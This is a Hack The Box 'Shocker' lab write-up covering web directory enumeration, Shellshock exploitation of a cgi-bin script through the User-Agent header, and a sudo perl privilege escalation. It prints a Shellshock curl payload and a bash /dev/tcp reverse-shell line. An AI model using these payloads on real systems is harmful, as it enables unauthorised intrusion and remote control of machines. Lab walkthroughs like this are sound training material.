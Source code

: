 ```yaml
---
description: https://app.hackthebox.com/machines/Shocker
---
```


# ⚡ Shocker

<figure><img src="../../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

Starting with a NMAP, we see 2 ports open, mainly we see the HTTP web server on port 22.

Let's try to find directories:

```
dirb http://10.129.101.205
```

<figure><img src="../../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

index does not  seem so important ->

<figure><img src="../../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

but the other directories are **forbidden:**

<figure><img src="../../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

after further enumeration, i found this _**user.sh:**_

```
gobuster dir -u http://10.129.101.205/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .sh
```

<figure><img src="../../../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>

and when we go on the resource, it DLs the file:

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

captured the packet where the script was:

<figure><img src="../../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

found this super website [https://www.sevenlayers.com/index.php/125-exploiting-shellshock](https://www.sevenlayers.com/index.php/125-exploiting-shellshock)

on how to exploit this type of environment:

```
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://192.168.90.59/cgi-bin/test.sh
```

<figure><img src="../../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

so we got a RCE, let's try to abuse it. First we get a listener going:

<figure><img src="../../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

after a bit of debug on the reverse shell user agent command:

```
() { ignored;};/bin/bash -i >& /dev/tcp/10.10.14.86/4444 0>&1
```

<figure><img src="../../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

and the rest is history:

<figure><img src="../../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

then quick enum for privesc:

<figure><img src="../../../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>

Now we see we can run perl as sudo -> let's go see GTFObins

<figure><img src="../../../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

Ez win on this privesc ->

<figure><img src="../../../.gitbook/assets/image (507).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>
